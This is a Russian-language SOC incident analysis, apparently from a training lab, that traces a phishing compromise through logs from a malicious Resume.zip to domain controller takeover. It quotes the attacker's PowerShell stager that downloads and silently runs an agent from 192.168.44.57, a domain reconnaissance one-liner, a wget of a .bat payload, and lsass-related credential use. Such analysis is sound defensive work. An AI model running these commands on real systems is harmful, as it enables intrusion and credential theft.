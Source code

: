 # SOC-Enigma

Описание: Система UserGate Log Analyzer зафиксировала зафиксировала подозрительную активность - фишинг с последующей компрометацией хоста

## Этап 1: Фишинг
**Время 3:39** Пользователь получает письмо на сервис OutLook и скачивает **Resume.zip**

```sh
-2022-08-02 03:39:22.234{289a599c-9c69-62e8-6e14-000000001900}9396C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exeC:\Users\Bob\Downloads\Resume.zip2022-08-02 
```

![ScreenShot](screenshots/1.png)

### Этап 2: Зауск файла resume.pdf.exe пользователем и дальнейшее развитие атаки
В 3:39 был запущен файл **resume.pdf.exe**. Данный файл при запуске пытается установить соединение с хостом 192.168.44.57:8888. 

```sh
powershell.exe /c Start-Process -FilePath Resume.pdf.exe -ArgumentList '-server http://192.168.44.57:8888 -group red' -WindowStyle Hidden powershell.exe -ExecutionPolicy Bypass -C Clear-History;Clear
```

![ScreenShot](screenshots/2.png)

В 3:54 был создан процесс, который позволяет устанавливать связь с сервером.
Захвачен узел 81004481-b886-4e62-9b54-d9a2c9fef341.

```sh
HostApplication=powershell.exe -ExecutionPolicy Bypass -C if ($host.Version.Major -ge 3){$ErrAction= "ignore"}else{$ErrAction= "SilentlyContinue"};$server="http://0.0.0.0:8888";$socket="0.0.0.0:7010";$contact="tcp";$url="$server/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","manx.go");$data=$wc.DownloadData($url);$name=$wc.ResponseHeaders["Content-Disposition"].Substring($wc.ResponseHeaders["Content-Disposition"].IndexOf("filename=")+9).Replace("`"","");Get-Process | ? {$_.Path -like "C:\Users\Public\$name.exe"} | stop-process -f -ea $ErrAction;rm -force "C:\Users\Public\$name.exe" -ea $ErrAction;([io.file]::WriteAllBytes("C:\Users\Public\$name.exe",$data)) | Out-Null;Start-Process -FilePath C:\Users\Public\$name.exe -ArgumentList "-socket $socket -http $server -contact $contact" -WindowStyle hidden;
```

### Этап 3: Разведка системы
В 3:55 была произведена разведка системы:

```sh
C:\Windows\System32\cmd.execmd.exe /C @echo off&echo ________________________________Whoami______________________________ &  whoami &echo ________________________________HostName______________________________  & hostname  & echo ________________________________IpConfig______________________________ & ipconfig /all  & echo ____________________________AllLocalUsers___________________________ & net user /domain  & echo _________________________AllUserInDomain___________________________ & net group /domain  & echo __________________________DomianAdmins_______________________________ & net group "domain admins" /domain  & echo _______________________ExchangetrustedMembers_______________________ & net group "Exchange Trusted Subsystem" /domain  & echo ________________________NetAccountDomain____________________________ & net accounts /domain  & echo ______________________________NetUser________________________________ & net user  & echo _______________________NetLocalGroupMembers________________________ & net localgroup administrators  & echo ________________________________netstat_______________________________ & netstat -an  & echo ______________________________tasklist________________________________ & tasklist  & echo _____________________________systeminfo_______________________________ & systeminfo  & echo ________________________________RDP___________________________________ & reg query "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default"  & echo ________________________________Task__________________________________ & schtasks /query /FO List /TN "GoogleUpdatesTaskMachineUI" /V | findstr /b /n /c:"Repeat: Every:"  & echo ________________________________________AntiVirus______________________________ &WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List
```

### Этап 4: Загрузка вредоносного .bat файла

В 4:02 был создан процесс, связанный с файлом **0000000000.bat**, который впоследствии становится файлом **1.bat**
```sh
powershell.exe -ExecutionPolicy Bypass -C "wget http://192.168.44.57:8000/0000000000.bat -OutFile c:\windows\temp\1.bat
```

![ScreenShot](screenshots/3.png)

Также замечен файл **1.log**, который создается при работе **1.bat**. При этом происходит обращение к lsass, которое отмечается в панеле Events.
```sh
powershell.exe -ExecutionPolicy Bypass -C gc c:\windows\temp\1.log
```

![ScreenShot](screenshots/4.png)

Около 4:28 был выполнен вход с правами администратора. Вероятнее всего у злоумешленника был доступ к хосту ранее, так как за месяц до этого был сделан дамп lsass, который использоваля сейчас для звхвата:
```sh
Выполнена попытка входа в систему с явным указанием учетных данных.

Субъект:
	ИД безопасности:		S-1-5-21-2282938710-1989567394-2605000726-1662
	Имя учетной записи:		bob
	Домен учетной записи:		PENTEST
	Код входа:		0xEC1DC
	GUID входа:		{00000000-0000-0000-0000-000000000000}

Были использованы учетные данные следующей учетной записи:
	Имя учетной записи:		Administrator
	Домен учетной записи:		
	GUID входа:		{00000000-0000-0000-0000-000000000000}

Целевой сервер:
	Имя целевого сервера:	exchange.pentest.net
	Дополнительные сведения:	exchange.pentest.net

Сведения о процессе:
	Идентификатор процесса:		0x4
	Имя процесса:		

Сведения о сети:
	Сетевой адрес:	172.16.249.160
	Порт:			445
```

В период с 4 до 5 был захвачен хост, а также контроллер домена - узел 2861b798-eed1-40f8-8487-21c836ed782f.



### Тип атаки
**Тип угрозы:** НСД

**Возможное негативное воздействие:**
FD|CE|PI|МО 
-|-|-|-
8|8|10|8

**Рекомендации по обеспечению безопасности:** антивирус, проведение тренингов с сотрудниками на различные темы информационной безопасности.

